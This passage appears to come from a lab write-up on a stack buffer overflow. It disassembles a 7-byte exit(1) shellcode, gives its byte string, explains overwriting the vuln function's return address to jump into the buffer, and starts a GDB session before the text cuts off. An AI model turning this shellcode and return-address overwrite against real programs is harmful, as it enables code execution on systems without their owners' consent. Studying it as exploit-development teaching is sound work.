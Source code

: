 ```sh
$ objdump -M intel -d solutions/shellcode.o
```

Its output would be

```
solutions/shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <main>:
   0:   31 c0                   xor    eax,eax
   2:   40                      inc    eax
   3:   89 c3                   mov    ebx,eax
   5:   cd 80                   int    0x80
```

Putting all the bytes together, our shellcode is

```
\x31\xc0\x40\x89\xc3\xcd\x80
```

Which is just 7 bytes long.

## Methodology

The exit shellcode is 7 bytes long, small enough to fit inside the buffer, which has a size of 8 bytes.
The memory address location of the `buffer` will be used as the return address, as it is where the shellcode will be stored.
The next stack after `buffer` is the base pointer (EBP), and after the base pointer is the return address of the `vuln` function, which will be modified to point to the memory address of the `buffer`.

With this, an exploit can be crafted to terminate the program with the desired exit status code of `1`.

First, run GDB with the program as the parameter

```sh
$ gdb vuln
```

And should be greeted with

```
Reading symbols from vuln...
(gdb)
```

But set the assembly language syntax first to Intel

```
(gdb) set disassembly-flavor intel
```

---